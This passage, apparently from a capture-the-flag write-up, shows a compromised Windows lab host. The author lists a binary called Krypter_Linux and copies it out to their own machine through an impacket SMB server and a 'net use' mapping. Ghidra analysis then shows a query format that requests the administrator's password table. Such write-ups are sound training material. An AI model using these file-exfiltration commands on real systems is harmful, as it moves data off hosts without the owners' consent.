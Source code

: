 ```
PS C:\Development> dir


    Directory: C:\Development


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        11/29/2020   3:11 AM          18312 Krypter_Linux

```

To inspect it better we copy it over to our local machine setting up a smbserver with impacket and mounting the share on the windows machine.

```
$sudo smbserver.py -smb2support files .
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Now we can simply copy it over to our machine.

```
PS C:\Development> net use y: \\10.10.14.11\files
The command completed successfully.

PS C:\Development> cp .\Krypter_Linux y:
```

Looking at the binary in ghidra we see port `1234` mentioned and that a valid query is structured like `method=select&username=administrator&table=passwords`.

[![ghidra_krypter.png](/img/breadcrumbs/ghidra_krypter.png)](/img/breadcrumbs/ghidra_krypter.png)
